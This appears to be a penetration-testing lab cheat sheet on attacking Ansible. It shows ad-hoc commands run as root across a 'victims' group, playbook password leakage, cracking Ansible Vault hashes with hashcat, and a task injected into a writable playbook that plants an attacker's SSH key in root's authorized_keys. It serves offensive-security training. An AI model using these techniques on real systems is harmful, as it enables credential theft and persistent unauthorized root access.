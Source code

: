 ```yaml
---
layout:     post
author:     0x5c4r3
type: docs
permalink: Ansible
---
```


# <span style="fint-size: 35px; color:red">Ansible</span>
#### Commands

Ansible is an infrastructure configuration engine that enables IT personnel to dynamically and automatically configure IT infrastructure and computing resources through Python scripts.
Config in <span style="color:red">/etc/ansible/hosts</span>.
The _ansibleadm_ user on the controller issues commands.
From the command machine:
{% highlight shell %}
ansible victims -a "whoami"
{% endhighlight %}
This will run _whoami_ on all members of the Ansible group. To run it as root <span style="color:red">ansible victims -a "whoami" --become</span> or specify the user <span style="color:red">ansible victims -a "whoami" --become user2</span>.

#### Playbooks
Sets of tasks written in YAML to be scripted so that they can be run in a routine.
Check this files in <span style="color:red">/opt/playbooks</span> to see if there's any info leakage.
I.E.
{% highlight yaml %}
- name: Write a file as offsec
  hosts: all
  gather_facts: true
  become: yes
  become_user: offsec <-------
  vars:
    ansible_become_pass: lab <---------
  tasks:
    - copy:
          content: "This is my offsec content"
          dest: "/home/offsec/written_by_ansible.txt"
          mode: 0644
          owner: offsec
          group: offsec
{% endhighlight %}
Ansible has a new features called _Ansible Vault_ to securely store credentials for playbooks:
{% highlight yaml %}
ansible_become_pass: !vault |
          $ANSIBLE_VAULT;1.1;AES256
          39363631613935326235383232616639613231303638653761666165336131313965663033313232
          3736626166356263323964366533656633313230323964300a323838373031393362316534343863
          36623435623638373636626237333163336263623737383532663763613534313134643730643532
          3132313130313534300a383762366333303666363165383962356335383662643765313832663238
          3036
{% endhighlight %}
Copy the hash starting with "$ANSIBLE_VAULT......." and use <span style="color:red">ansible2john</span> to convert it in a crackable way to then:
{% highlight shell %}
hashcat testhash.txt --force --hash-type=16900 /usr/share/wordlists/rockyou.txt
{% endhighlight %}
to then decrypt the vault like:
{% highlight shell %}
cat pw.txt | ansible-vault decrypt
{% endhighlight %}
Also, if the playbook files used on the controller have world-writable permissions or if we can find a way to write to them (perhaps through an exploit), we can inject tasks that will then be run the next time the playbook is run.
I.E. to add to the yaml playbook:
{% highlight yaml %}
- name: Create a directory if it does not exist
      file:
        path: /root/.ssh
        state: directory
        mode: '0700'
        owner: root
        group: root

    - name: Create authorized keys if it does not exist
      file:
        path: /root/.ssh/authorized_keys
        state: touch
        mode: '0600'
        owner: root
        group: root

    - name: Update keys
      lineinfile:
        path: /root/.ssh/authorized_keys
        line: "ssh-rsa AAAAB3NzaC1...Z86SOm..."
        insertbefore: EOF
{% endhighlight %}
Also, some modules from Ansible might leak data in <span style="color:red">/var/log/syslog</span> (I.E. shell module)
